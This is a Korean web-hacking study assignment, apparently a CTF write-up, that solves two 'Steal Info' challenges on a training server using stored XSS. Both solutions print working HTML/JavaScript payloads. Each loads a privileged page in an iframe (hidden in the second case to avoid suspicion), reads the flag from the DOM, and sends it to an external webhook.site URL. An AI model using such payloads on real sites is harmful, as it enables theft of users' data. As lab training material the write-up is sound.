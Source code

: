 # 웹 해킹 스터디 11주차 과제: Stored XSS 기반 Same-Origin DOM 데이터 탈취

## 개요

- 이 문서는 Stored XSS 취약점과 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.
- 주어진 웹 애플리케이션에서 민감 정보가 포함된 페이지를 `iframe`으로 불러오고, JavaScript를 이용해 내부 DOM에 접근하여 데이터를 추출한 뒤 외부 서버로 전송하는 방식으로 공격을 수행하였습니다.
- 공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.
- 본 실습의 핵심은 공격 스크립트 삽입, 동일 출처 기반의 iframe DOM 접근, 외부 전송 방식 등 실제 공격 흐름을 구성하여, XSS 취약점이 **단순 스크립트 실행을 넘어 정보 유출로도 직결될 수 있음을 재현**하는 데 있습니다.

---

## CTF 문제 풀이

### Steal Info

![취약점 있는 곳](./screenshots/steal1_post.png)

- 게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](./screenshots/target_html.png)

- 누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

- 확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](./screenshots/target_card-text.png)

- 위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal1_payload.png)

- 이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](./screenshots/steal1_access_admin.png)

- URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](./screenshots/steal1_access_admin.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

### Steal Info 2

![타겟 할 곳](./screenshots/steal2_burp_suite.png)

- 위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal2_post.png)

- `iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

사용자가 직접 게시물 클릭 시:

![게시물 클릭](./screenshots/steal2_access.png)

- 게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

- 이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](./screenshots/steal2_access_admin.png)

- 관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

**결과:**

![플래그 획득](./screenshots/steal2_flag.png)

결과적으로, 관리자 권한 없이 플래그를 획득하는 데 성공했다.



